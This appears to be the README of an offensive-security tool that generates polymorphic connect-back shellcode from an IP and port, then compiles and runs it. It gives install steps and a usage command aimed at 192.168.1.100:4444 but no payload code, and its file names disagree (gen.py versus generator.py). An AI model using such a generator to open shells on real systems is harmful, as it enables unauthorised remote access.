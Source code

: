 # Polymorph-Shellcode-Generator

This project generates shellcode based on a provided IP and port, compiles a C program to execute the shellcode, and runs the compiled binary.

## Requirements

- Python 3.x
- GCC (GNU Compiler Collection)
- Colorama (Python package)

## Directory Hierarchy
```
|—— .gitignore
|—— connection_steps.json
|—— gen.py
|—— LICENSE
|—— requirements.txt
|—— shellcode_loaded_template.c
|—— socket_creation_steps.json
```

## Installation

1. **Install GCC**:
   - On Debian-based systems (like Ubuntu):
     ```bash
     sudo apt-get update
     sudo apt-get install gcc
     ```
   - On Red Hat-based systems (like CentOS):
     ```bash
     sudo yum install gcc
     ```

2. **Install Python Dependencies**:
   - Install requirements using pip:
     ```bash
     pip install -r requirements.txt
     ```

3. **Download the JSON Files**:
   - Ensure you have `socket_creation_steps.json` and `connection_steps.json` in the same directory as the Python script.

## Usage

1. **Generate and Execute Shellcode**:
   - Run the Python script with the desired IP and port as arguments.
     ```bash
     python generator.py <IP> <PORT>
     ```
   - Example:
     ```bash
     python generator.py 192.168.1.100 4444
     ```

## Files

- `generator.py`: Python script that generates shellcode, compiles a C program, and executes the shellcode.
- `shellcode.c`: C program generated by the Python script (dynamically created).
- `socket_creation_steps.json`: JSON file containing socket creation steps.
- `connection_steps.json`: JSON file containing connection steps.

## Example

Here is an example of how to use the generator:

1. **Run the Python Script**:
   ```bash
   python generator.py 192.168.1.100 4444
    ```
